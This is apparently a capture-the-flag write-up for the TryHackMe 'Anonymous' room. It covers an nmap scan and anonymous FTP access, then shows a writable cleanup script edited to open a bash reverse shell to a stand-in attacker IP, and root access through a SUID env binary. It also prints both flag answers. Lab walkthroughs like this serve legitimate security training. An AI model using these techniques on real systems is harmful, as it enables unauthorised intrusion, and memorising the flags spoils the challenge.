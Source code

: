 ###### Not the hacking group
Room: https://tryhackme.com/room/anonymous
##

**sudo nmap** -sS --script=vuln -sV -T5 -vv xx.xx.xxx.xx
```
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.0.8 or later
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 21, we see FTP running. Tried to login Anonymously and it worked.  
```
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1290 Oct 10 20:10 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

**content of clean.sh**
```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

We can use **append** to upload an updated version of clean.sh. 

**the updated version of clean.sh**
```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        sh -i >& /dev/tcp/ATTACKIN_MACHINE_IP/8888 0>&1
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
Set up a listener.We can try to download a file again from ftp or wait.  
After some time, a connection is established, granting us a reverse shell.  

**First flag, content of user.txt** **[1]**
> 90d6f992585815ff991e68748c414740


**find** / -user root -perm -4000 -print 2>/dev/null  
We see that we use the **/usr/bin/env** to escalate our privileges with ease.  

According to [GTFOBins](https://gtfobins.github.io/gtfobins/env/#sudo), we can use **/usr/bin/env /bin/sh -p** to escalate our privileges to root.  

**Second flag, content of /root/root.txt** **[2]**
> 4d930091c31a622a7ed10f27999af363
